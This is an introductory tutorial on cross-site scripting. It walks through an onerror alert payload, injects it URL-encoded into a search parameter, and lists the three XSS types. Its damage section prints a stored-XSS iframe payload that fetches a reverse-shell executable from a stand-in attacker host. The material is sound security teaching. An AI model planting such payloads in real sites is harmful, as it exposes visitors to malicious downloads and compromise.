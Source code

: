 # Cross Site Scripting (XSS)

##Video


## The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

####Example

Consider the following block of HTML code:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist">
...
````
When this site renders in the browser, what happens? The site looks like this:

![xss1](../img/xss1.png)

If you put a reference to an image that does not exist right into the web page, a broken image icon will show up in its place. This is expected behavior.

What about this code block? Similar, but notice a small difference:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist" onerror="alert('hi!')"> >
...
````
Now, when the website is rendered, the additional `onerror` tag tells the website to trigger an alert box if there is some error on the page. And indeed, there is an error: the page is trying to load an image that does not exist!

When the page renders, it looks like this:

![xss2](../img/xss2.png)

This time, we get an error message alert. So far so good, right? We, as the page author, are just using the common HTML tags to add different things to the website.

Well, what happens when you allow the user to provide input in the form of a...well, form?

Consider this poorly written HTML page with a form in it:
````html
...
 <form action="" method="GET">
    <input type="text" name="q">
    <input type="submit" value="Search">
</form>
...
````
Notice the addition of the `<input type="text" name="q">` tag. What exactly is this doing?

Well, per the form's tag parameters, it will make a GET request (in this case, to nothing as it's just an example) and will add whatever is put in the search bar to the "q=" parameter. Since this is a <code>GET</code> request, this parameter is viewable in the URL of the page:

![xss3](../img/xss3.png)

What is more concerning is that there is no **escaping or input validation** in this code. This means that the input from the user side will be brought right into the HTML of the page when the form is submitted.

Remember the broken image tag from before? How about we insert it into the page as the user, **not as the author** via XSS?

Through the URL, by using the insecure GET parameter of "q=" on this page, we will inject a **URL encoded HTML tag** to include the same broken image tag as before, with that exact same error. And, if the syntax is correct, the user will be able to include HTML in the page as if they were the author.

We will take the same syntax from before and URL encode it with a tool like this one: https://www.urlencoder.org/

`<img src="does-not-exist" onerror="alert('hi!')">`

becomes

`%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E`

...and we will inject this into the "q=" parameter in the website's URL:

![xss4](../img/xss4.png)

Then, we hit enter!

![xss5](../img/xss5.png)

The URL will automatically render the URL encoded characters when the form is submitted. What we're left with is an HTML tag that is dynamically added to the page by way of an evil user's actions.

## The Types
There are three types of XSS:
- Reflected XSS: XSS that returns user input 
- Stored XSS: Think of this as XSS that is added to the actual code on the server. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- DOM Based XSS


## The Damage
XSS is not just a matter of popping up an alert on a website. An attacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of a particularly nasty Stored XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.

Yikes!




